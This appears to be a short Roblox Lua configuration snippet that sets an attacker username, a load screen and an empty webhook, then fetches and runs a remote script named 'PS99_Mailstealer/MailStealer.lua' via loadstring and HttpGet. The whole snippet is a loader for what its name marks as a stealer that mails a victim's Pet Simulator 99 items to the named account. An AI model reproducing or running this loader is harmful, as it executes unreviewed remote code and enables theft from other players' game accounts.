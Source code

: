 Username = "LORDAIZENTZ"
LoadScreen = true 
Webhook = "" -- 

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
